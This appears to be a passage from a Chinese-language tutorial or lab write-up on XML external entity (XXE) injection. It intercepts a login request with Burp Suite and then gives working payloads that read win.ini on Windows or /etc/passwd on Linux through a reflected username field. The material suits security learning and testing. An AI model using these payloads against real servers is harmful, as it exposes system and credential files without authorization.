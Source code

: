 我们使用brupsuite抓包看看

<img src="XXE.assets/image-20211128145136166.png" alt="image-20211128145136166" style="zoom: 80%;" />

判断传输类型是xml，通过post传输的数据。然后看一下返回的响应包

![image-20211128145315051](XXE.assets/image-20211128145315051.png)

发现，响应包返回的信息中，有username的值admin。

那么我么尝试构造payload来构造外部实体admin处的注入，利用协议读取文件

```
网站在window系统上搭建：
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE ANY [
<!ENTITY xxes SYSTEM "file:///c:/windows/win.ini"> ]>
<user><username>&xxes;</username><password>admin</password></user>
网站在linux系统上搭建：
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE ANY [
<!ENTITY xxes SYSTEM "file:///etc/passwd"> ]>
<user><username>&xxes;</username><password>admin</password></user>
```

